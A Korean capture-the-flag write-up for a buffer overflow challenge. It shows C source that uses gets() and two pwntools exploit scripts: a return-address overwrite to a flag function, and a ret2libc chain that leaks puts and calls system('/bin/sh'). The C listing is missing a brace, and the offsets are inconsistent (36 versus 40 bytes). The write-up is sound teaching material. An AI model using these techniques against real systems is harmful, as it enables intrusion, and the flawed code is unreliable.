 문제 제작 - simpleprob 라이트업
=======================


## 1. 코드 분석


문제 파일 prob.c를 확인해보면

```c
#include <string.h>
#include <stdlib.h>

void give_flag() {
    FILE *fp;
    char flag[128];

    fp = fopen("flag.txt", "r");
    if (fp == NULL) {
        printf("Error: flag file not found!\n");
        exit(1);

    fgets(flag, sizeof(flag), fp);
    printf("Here is your flag: %s\n", flag);
    fclose(fp);
}

void vuln() {
    char buffer[32];
    printf("Enter your name: ");
    gets(buffer); 
    printf("Hello, %s!\n", buffer);
}

int main(void) {
    printf("Welcome to the simple buffer overflow challenge.\n");
    vuln();
    return 0;
}
```

문제의 핵심은 **`vuln()`** 함수 내의 **`gets()`** 함수이다. 
`gets()`는 입력 길이 제한이 없기 때문에 buffer의 크기인 **32바이트**를 초과하는 입력이 들어오면 
**버퍼 오버플로우**가 발생한다.     
이 취약점을 이용해 프로그램의 실행 흐름을 **`give_flag()`** 함수로 변경해야 한다. 

-----

## 2. 익스플로잇

### 2.1. `give_flag` 함수 주소 찾기

gdb를 사용, `give_flag()` 함수의 시작 주소를 찾는다.

<img width="690" height="141" alt="image" src="https://github.com/user-attachments/assets/89e55efa-1bd8-407c-bd65-01fdcd39e94c" />


0x080491c6이 `give_flag()` 함수의 시작 주소임을 확인했다.

### 2.2. 스택 오프셋 계산

`vuln()` 함수 스택에는 buffer와 SFP, 그리고 리턴 어드레스가 순서대로 쌓여 있다.  
buffer의 크기는 32바이트이고 SFP는 4바이트이므로 총 36바이트의 더미 데이터를 채워야 리턴 어드레스에 도달한다.    

여기서는 확실하게 풀기 위해 40바이트의 더미 데이터를 사용한다.

### 3.3. 익스플로잇 코드


```python
from pwn import *

context.arch = 'i386'
context.bits = 32

p = process('./prob')

give_flag_addr = 0x080491c6

# 40바이트의 더미 데이터 (버퍼와 SFP를 덮음)
dummy = b'A' * 40

# 페이로드: [더미 데이터] + [give_flag 함수의 주소]
# p32 함수는 32비트 주소를 리틀 엔디안으로 변환
payload = dummy + p32(give_flag_addr)

p.recvuntil(b'Enter your name: ')

p.sendline(payload)

p.interactive()
```

-----

### 쉘 따서 푸는 페이로드

libc.so.6 파일 따로 찾아서 풀 수 도 있다.

```
from pwn import *

context.arch = 'i386'

elf = ELF('./prob')
libc = ELF('./libc.so.6') 

p = process('./prob')

padding = b'A' * 36

# Stage 1: leak puts@libc
payload  = padding
payload += p32(elf.plt['puts'])
payload += p32(elf.symbols['main'])
payload += p32(elf.got['puts'])

p.recvuntil(b'Enter your name: ')
p.sendline(payload)

puts_leak = u32(p.recv(4))
libc_base = puts_leak - libc.symbols['puts']

system_addr = libc_base + libc.symbols['system']
binsh_addr  = libc_base + next(libc.search(b'/bin/sh'))
exit_addr   = libc_base + libc.symbols['exit']

payload  = padding
payload += p32(system_addr)
payload += p32(exit_addr)
payload += p32(binsh_addr)

p.recvuntil(b'Enter your name: ')
p.sendline(payload)
p.interactive()
```
